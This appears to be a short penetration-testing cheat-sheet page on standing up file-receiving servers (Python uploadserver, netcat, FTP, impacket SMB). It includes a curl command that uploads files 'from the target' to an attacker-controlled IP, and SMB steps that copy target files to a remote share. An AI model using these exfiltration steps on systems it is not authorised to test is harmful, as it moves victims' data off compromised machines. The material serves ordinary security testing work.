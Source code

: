 Servers for uploading files to.

{% tabs %}
{% tab title="Python3 (HTTP)" %}
```bash
python3 -m uploadserver
```
{% endtab %}

{% tab title="Python3 (HTTPS)" %}
{% code overflow="wrap" %}
```bash
# create self-signed cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# create and move to webroot (must be different dir from the cert)
mkdir https && cd https
# start web server using the cert
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
# upload from the target
curl -X POST https://10.10.10.10/upload -F 'files=@file1' -F 'files=@file1' --insecure 
```
{% endcode %}
{% endtab %}

{% tab title="netcat" %}
```bash
nc -lvnp 1337
```
{% endtab %}

{% tab title="FTP" %}
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
{% endtab %}
{% endtabs %}

**SMB**

{% tabs %}
{% tab title="1. Server" %}
```bash
# unauthenticated
sudo impacket-smbserver share -smb2support /
# authenticated
sudo impacket-smbserver share -smb2support / -user test -password test
```
{% endtab %}

{% tab title="2. Connect" %}
```sh
net use z: \\<IP>\share
```
{% endtab %}

{% tab title="3. Transfer" %}
```sh
cp <FILE> z:\
```
{% endtab %}
{% endtabs %}
